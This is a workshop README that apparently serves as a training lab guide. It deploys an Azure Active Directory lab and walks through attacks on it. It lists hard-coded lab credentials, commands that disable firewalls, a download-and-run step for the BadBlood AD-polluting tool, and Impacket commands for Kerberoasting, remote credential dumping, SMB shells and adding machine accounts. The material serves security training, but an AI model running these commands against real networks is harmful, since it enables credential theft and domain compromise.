


# Welcome to Lab Building 101

This repo was created for the gracious folks at Wild West Hackin' Fest, who picked us up, dusted us off and said "here's another chance guys, go get 'em!" ...and who gave us an opportunity to run a rapid fire workshop about lab building.

Anyway, here's the Defensive Origins crew builds labs!


# Building a Lab on Azure with ARM

Time to deploy: **Approximately 30-60 minutes**

Authenticate to your Azure portal: 

| &#x1f30e; URL | Browser on Students Local System |
|---------------|----------------------------------|
```url
https://portal.azure.com
```

Then, go to the hosted ARM template resource page on a new browser tab:

| &#x1f30e; URL | Browser on Students Local System |
|---------------|----------------------------------|
```url
https://www.doazlab.com
```

About half way down the page, click the **Deploy to Azure** button.

|  | 
|------------------------------------------------|

Select your subscription, resource group, and location.  Document this location, it will be needed later in class.

|  | 
|------------------------------------------------|

The default VM size is B2s, which are burstable, low cost, and efficient VMs. You can bump this up to larger should you choose. 

|  | 
|------------------------------------------------|

Your next configuration option is the network ranges allowed to access this lab's public IP addresses. We will investigate some Internet-based threats later and recommend leaving this wide open to the configured all zeroes (0.0.0.0/0) range. 

|  | 
|------------------------------------------------|

One more click will bring you to the validation check. After a moment, you can click on Create to start the build process for your ADD Lab Environment.

|  | 
|------------------------------------------------|

The process takes between 25 and 30 minutes to fully deploy. The deployment confirmation shown next is indicative of a successful build. 

|  | 
|------------------------------------------------|

The **Outputs** option in the left navigation tree includes the access details you will need for SSH and RDP access into the lab environment. Document these IP addresses, you will need them later to access your lab infrastructure.

|  | 
|------------------------------------------------|

A visual aid for your lab deployment is shown in the next image. 

|  | 
|------------------------------------------------|


# Connecting to Infrastructure 

<!-- DO-CREDENTIAL-REMINDER-START -->
<Details><summary>

## &#x1F512; Lab Credentials

</summary><blockquote>

### &#x1FA9F; Windows credentials

When logging into the Windows system, use the following credentials.

```Win-creds
doazlab\doadmin
DOLabAdmin1!
```

### &#x1F427; Linux credentials

When logging into the Linux system, use the following credentials.

```Linux-creds
doadmin
DOLabAdmin1!
```

</blockquote></details>

<!-- DO-CREDENTIAL-REMINDER-END -->
<Details><summary>

## &#x2460; Lab Deployment Network Connectivity 

</summary><blockquote>

The screenshot in this section demonstrates the output values from the course ARM template deployemnt. 

You will need all of these at various points throughout the course material. You should keep them handy in a notes document or similar quick-reference.

|  | 
|------------------------------------------------|


&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>


<Details><summary>

## &#x2461; Establish RDP Connections (from Linux) 

</summary><blockquote>

Establish RDP to the workstation and domain controller (Linux with Remmina)

From Linux, you can use the Remmina remote desktop (RDP) client software.

|  | 
|------------------------------------------------|

| &#x26a0; Note | Be sure to include the domain on the initial RDP connections.|
|---------------|--------------------------------------------------------------|

```Win-creds
doazlab\doadmin
DOLabAdmin1!
```

Establish an RDP connection to the IP address of your lab's domain controller. You will be prompted to accept a certificate that should match **DC01.doazlab.com**.

|  | 
|------------------------------------------------|

Establish an RDP connection to the IP address of your lab's workstation. You will be prompted to accept a certificate that should match **WS05.doazlab.com**.

|  | 
|------------------------------------------------|

The domain controller will prompt you to accept the discovery settings. Your lab is isolated and our guidance is to click **Yes**. The course authors do not believe choosing **No** will affect any of the course content.

|  | 
|------------------------------------------------|

The first login to the workstation will require approximately ten minutes to fully build the user profile and desktop environment. 

|  | 
|------------------------------------------------|

&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>


<Details><summary>

## &#x2462; Establish Remote Desktop Connections (from Windows) 

</summary><blockquote>

Establish RDP connections to the workstation and domain controller (Windows terminal services client)

The following screenshot includes an **example** mstsc connection string. *Your IP address will differ.*

|  | 
|------------------------------------------------|

Be sure to include the domain on the initial RDP connections.

```Win-creds
doazlab\doadmin
DOLabAdmin1!
```

|  | 
|------------------------------------------------|

Establish an RDP connection to the IP address of your lab's domain controller. You will be prompted to accept a certificate that should match **DC01.doazlab.com**.

|  | 
|------------------------------------------------|

Establish an RDP connection to the IP address of your lab's workstation. You will be prompted to accept a certificate that should match **WS05.doazlab.com**.

|  | 
|------------------------------------------------|

The domain controller will prompt you to accept the discovery settings. Your lab is isolated and our guidance is to click **Yes**. The course authors do not believe choosing **No** will affect any of the course content.

|  | 
|------------------------------------------------|

The first login to the workstation will require approximately ten minutes to fully build the user profile and desktop environment. The desktop background includes bginfo.exe as a desktop background for quick reference as to which system you have accessed. 

|  | 
|------------------------------------------------|

Run the following command on the workstation from the Admin PowerShell prompt as shown in the subsequent screenshot. Note that there is a linked PowerShell Admin invoker on the desktop.

```PowerShell
Set-NetFirewallProfile -Profile Domain, Public, Private -Enabled False
```

This is shown in the next screenshot.

|  | 
|------------------------------------------------|

&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>


<Details><summary>

## &#x2463; Establish SSH Connection 

</summary><blockquote>

| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
ssh doadmin@'YOUR-PUB-C2-IP'
```

```Linux-creds
doadmin
DOLabAdmin1!
```

|  | 
|------------------------------------------------|

Did you know you can SSH directly from Windows 10 without additional installation, packages, or software? You can, straight from PowerShell.

| &#x1FA9F; PowerShell Input |
|-----------------------|
```PowerShell
ssh doadmin@'YOUR-PUB-C2-IP'
```

|  | 
|------------------------------------------------|

&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>

# Installing Tools Rapid Fire Style

We packed a bunch of tools onto your Linux system during the build process. So, there's a start, but here's some more quick hitters. We regularly wrap python tools in virtual environments, so be prepared to `activate` and `deactivate`. Also, install virtual-env. 

```
apt install python3-virtualenv -y 
```

Or, use pip. 

```
pip3 install virtualenv
```

Now, let's rock and roll. One of the tools we didn't install via bootstrap on the Linux box was DonPAPI. This is a browser shredder (and more). Copy and paste the following block into your Linux terminal. 

```
cd /opt/
git clone https://github.com/login-securite/DonPAPI
cd DonPAPI
virtualenv -p python3 dp-env
source dp-env/bin/activate
python3 -m pip install .
DonPAPI -h
```


# BadBlood

This tool makes a mess out of an existing lab environment, your production AD, or anywhere you run this. ** This is dangerous DO NOT RUN IN PRODUCTION ** 

### &#x1FA9F; Windows credentials

When logging into the Windows system, use the following credentials.

```Win-creds
doazlab\doadmin
DOLabAdmin1!
```

## &#x2460; AD Pollution with BadBlood

</summary><blockquote>

_Conduct Lab Operations from Domain Controller DC01_

First, download and invoke BadBlood.

** This is dangerous DO NOT RUN IN PRODUCTION ** 

The following commands should be pasted into a PowerShell terminal session on the domain controller. 

| &#x1FA9F; PowerShell Input | Domain Controller: DC01 |
|----------------------------|-------------------------|
```PowerShell
$ProgressPreference = 'SilentlyContinue' 
invoke-webrequest -URI https://github.com/Relkci/BadBlood/archive/refs/heads/master.zip -outfile badblood.zip 
Expand-Archive .\badblood.zip 
$ProgressPreference = 'Continue' 
./badblood/BadBlood-master/invoke-badblood.ps1
```

|  | 
|------------------------------------------------|

Three strikes against the enter key will result in a prompt to confirm your intentions. Again, *DO NOT RUN THIS IN PRODUCTION**. The `badblood` key word will then result in the creation of various AD objects, ACL tampering, and general pollution of your doazlab.com forest.

| &#x1FA9F; PowerShell Input | Domain Controller: DC01 |
|----------------------------|-------------------------|
```PowerShell
 [ENTER] x 3
 badblood
```

Some errors are expected. 

|  | 
|------------------------------------------------|

**Exit PowerShell's AD> Prompt!**

| &#x1FA9F; PowerShell Input | Domain Controller: DC01 |
|----------------------------|-------------------------|
```PowerShell
exit
```

&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>


# GO SPEEDRACER GO!!!!!!

<!-- DO-CREDENTIAL-REMINDER-START -->
<Details><summary>

## &#x1F512; Lab Credentials

</summary><blockquote>

### &#x1FA9F; Windows credentials

When logging into the Windows system, use the following credentials.

```Win-creds
doazlab\doadmin
DOLabAdmin1!
```

### &#x1F427; Linux credentials

When logging into the Linux system, use the following credentials.

```Linux-creds
doadmin
DOLabAdmin1!
```

</blockquote></details>
<!-- DO-CREDENTIAL-REMINDER-END -->

## &#x2460; Activate Impacket Virtual Environment 

</summary><blockquote>

_Conduct Lab Operations from Linux Host Nux01_

Prepare the Python virtual environment (venv) to containerize Impacket's dependencies. Run the following commands to activate the environment and list the tools of Impacket.

Ensure you are root with sudo. 

| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
sudo -s
```

Run the next commands as a codeblock to instantiate the venv and list the Python tools in the impacket repo.

| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
deactivate
cd /opt/impacket
source /root/pyenv/impacket/bin/activate
cd /opt/impacket/examples
ls
```

|  | 
|------------------------------------------------|

&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>

## &#x2462; Interrogate Service Principals 

</summary><blockquote>

All members of the "Domain Users" group can request a service ticket for any account with a configured service principal name (SPN). This is the attack known as "Kerberoasting". The krbtgt's response to the requested service ticket operation includes a potentially crackable password hash.

Let's gather hashes from the accounts running with assigned service principal names (SPNs). Why? These are the accounts that any domain user can request Kerberos service tickets for. Thus, the Kerberoast attack.


| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
mkdir /opt/hashes/
GetUserSPNs.py 'doazlab.com'/'doadmin':'DOLabAdmin1!' -dc-ip 192.168.2.4 -outputfile /opt/hashes/kerbs.txt
cat /opt/hashes/kerbs.txt |less -S
```

|  |
|------------------------------------------------|

Use either `CTRL + C` or `q` to exit this view.

The SPN hashes were saved to file /opt/hashes/kerbs.txt

&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>


<Details><summary>

## &#x2463; Secretsdump Remote Access

</summary><blockquote>

We are next going to take some liberties with our privileged position to check out Secretsdump. This tool will attempt to gather credential material from a remote system to which the analyst has recovered some form of privileged credentials.

The account credential used to access the environment has sufficient privilege to start the RemoteRegistry service and access credential material through the various secrets storage locations in Microsoft's operating systems. The next command uses secretsdump.py to attempt a remote credential dump and the tee -a command to write STDOUT to a file in the /opt/hashes/ directory.


| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
mkdir /opt/hashes 
secretsdump.py doazlab/doadmin@192.168.2.5 |tee -a /opt/hashes/secrets-output.txt
```

You will be prompted for a password. 


| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
DOLabAdmin1!
```

|  |
|------------------------------------------------|

&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>


<Details><summary>

## &#x2465; Establish Semi-Interactive SMB Shell

</summary><blockquote>


The smbexec.py utility establishes a semi-interactive shell to a remote host. This is not an opsec safe tool and will get caught by most EDR products.

| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
python3 smbexec.py doazlab.com/doadmin@192.168.2.5
```

You will be prompted for a password.

```bash
DOLabAdmin1!
```


| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
net localgroup administrators
ipconfig
whoami
hostname
nslookup doazlab.com
netsh advfirewall set allprofiles state off
exit

```

|  |
|------------------------------------------------|

&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>


<Details><summary>

## &#x2466; Request a Ticket as doadmin 

</summary><blockquote>


The getTGT.py utility is used to request authentication tickets (Kerberos) from a known username and password (or hash) combination. 

| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
python3 getTGT.py -dc-ip 192.168.2.4 doazlab.com/doadmin:'DOLabAdmin1!'
```

| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
ls
export KRB5CCNAME=/opt/impacket/examples/doadmin.ccache
```

|  |
|------------------------------------------------|

&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>


<Details><summary>

## &#x2467; Add Computer Object via Kerberos Authentication

</summary><blockquote>

Let's use the Kerberos ticket we grabbed with getTGT.py to add a computer object to the domain. Always remember - any user can add up to ten computers to a domain by default (MS-DS-MachineAccountQuota). Trust us, you need to learn to how to use


| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
python3 addcomputer.py -computer-name lowprivPC -computer-pass L0wPr1VSys -k -no-pass -dc-ip 192.168.2.4 doazlab.com/doadmin@192.168.2.4 -dc-host dc01
```

|  |
|------------------------------------------------|

&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>


<Details><summary>

## &#x2468; Use Net.py 

</summary><blockquote>

The regsecrets.py utility was designed as an improvement on the secretsdump.py utility. Regsecrets.py conducts a fileless interrogation of a targeted system's registry. 
<br />

Take a look at the tool's help file too. Kent says: "Know your tools."


| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
python3 net.py
```

Use the following command to quietly and filelessly dump creds from the WS05 system. 

| &#x1F427; Bash Input | Linux Host: Nux01 |
|----------------------|-------------------|
```bash
python3 regsecrets.py 
```


&#x21E8; *Step Complete, Go to the next step!*

</blockquote></details>